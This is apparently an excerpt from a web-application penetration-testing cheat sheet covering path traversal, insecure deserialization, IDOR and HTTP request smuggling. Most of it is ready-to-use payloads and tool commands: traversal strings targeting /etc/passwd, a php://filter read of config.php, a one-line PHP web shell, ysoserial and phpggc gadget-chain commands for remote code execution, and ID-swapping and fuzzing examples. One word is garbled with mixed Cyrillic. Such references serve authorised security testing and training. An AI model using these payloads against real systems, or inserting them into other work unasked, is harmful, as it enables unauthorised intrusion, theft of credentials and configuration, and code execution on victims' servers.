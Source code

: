 **Exploit:**
```
../../../etc/passwd
....//....//....//etc/passwd
php://filter/convert.base64-encode/resource=config.php
php://input (with POST: <?php system($_GET['cmd']);?>)
```

## **INSECURE DESERIALIZATION**
*Present when: Untrusted serialized objects are deserialized*

**Manual:** Look for base64/hex blobs in cookies, параметрs; decode and analyze
**Automated:**
```bash
ysoserial -p CommonsCollections1 -c 'id'
phpggc -l # List gadgets
```

**Exploit:**
```bash
# Java
java -jar ysoserial.jar CommonsCollections1 'id' | base64

# PHP
phpggc Laravel/RCE1 system id | base64

# .NET
ysoserial.exe -f BinaryFormatter -g TypeConfuseDelegate -c "calc"
```

## **IDOR**
*Present when: Object IDs in URLs/parameters lack proper authorization checks*
Also see: [Insecure Direct Object Reference (IDOR)](../../🌐%20Web%20Application/Access%20Control/Insecure%20Direct%20Object%20Reference%20(IDOR).md)
**Manual:** Change numeric IDs, UUIDs, usernames in parameters
**Automated:**
```bash
ffuf -w numbers.txt -u target.com/user/FUZZ -fc 404
authz0 -u target.com -H "Cookie: session=abc"
```

**Exploit:**
```
/user/profile?id=1 → id=2
/api/document/ABC123 → ABC124
/order/user123 → user456
```

## **HTTP REQUEST SMUGGLING**
*Present when: Frontend/backend servers parse HTTP requests differently*

**Manual:** Send conflicting Content-Length/Transfer-Encoding headers
**Automated:**
```bash
smuggler.py -u target.com
httpreqsmuggler target.com
```
